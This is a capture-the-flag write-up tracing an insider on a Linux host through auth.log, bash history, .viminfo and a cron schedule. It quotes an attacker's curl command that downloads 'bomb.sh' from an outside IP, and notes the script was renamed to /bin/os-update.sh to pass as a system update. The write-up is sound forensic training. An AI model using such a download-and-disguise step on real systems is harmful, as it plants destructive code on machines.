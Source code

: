 # Disgruntled

### Nothing suspicious... So far
- The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?<br />
The command that worked for me is  `sudo grep -i 'sudo' /var/log/auth.log | grep apt`:<br />
![image](https://github.com/user-attachments/assets/b0dd2183-3e17-4e53-9007-901b3dc5e5c3)<br />
`/usr/bin/apt install dokuwiki`
- What was the present working directory (PWD) when the previous command was run? `/home/cybert`

### Let’s see if you did anything bad
- Which user was created after the package from the previous task was installed?<br />
Found the answer on the same log file:<br />
![image](https://github.com/user-attachments/assets/a5ab98ba-623f-41ac-bb10-3a92471348a2)<br />
`it-admin`
- A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)<br />
I used the command `stat /etc/sudoers` but the date found in there wasn't right. I had to look at the hint for this one. The command i used is `sudo grep -i 'sudo' /var/log/auth.log | grep visudo`:<br />
`Dec 28 06:27:34`
- A script file was opened using the "vi" text editor. What is the name of this file?<br />
![image](https://github.com/user-attachments/assets/5efe4ea0-2a9c-4f93-9b34-833ed98267b1)<br />
`bomb.sh`

### Bomb has been planted. But when and where?
- What is the command used that created the file bomb.sh?<br />
The answer can be found from the bash history, in the image above: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`
- The file was renamed and moved to a different directory. What is the full path of this file now?<br />
The vi text editor can edit and save files to a different location. Check out the history of vi by looking for ".viminfo". <br />
![image](https://github.com/user-attachments/assets/02450609-3869-4729-b6f3-4ebf4448647f)<br />
`/bin/os-update.sh`
- When was the file from the previous question last modified? (Format: Month Day HH:MM)<br />
![image](https://github.com/user-attachments/assets/4f8e0aa6-e55b-419e-9168-c499b5fdb8ab)<br />
`Dec 28 06:29`
- What is the name of the file that will get created when the file from the first question executes?<br />
![image](https://github.com/user-attachments/assets/f1c7ba24-b81b-4ba5-b6c3-2a87ea45b46a)<br />
`goodbye.txt`

### Following the fuse
- At what time will the malicious file trigger? (Format: HH:MM AM/PM)<br />
![image](https://github.com/user-attachments/assets/109d3bf9-29a4-47b4-b78e-afffa101aad0)<br />
This means that the script runs at 8 AM: `08:00 AM`

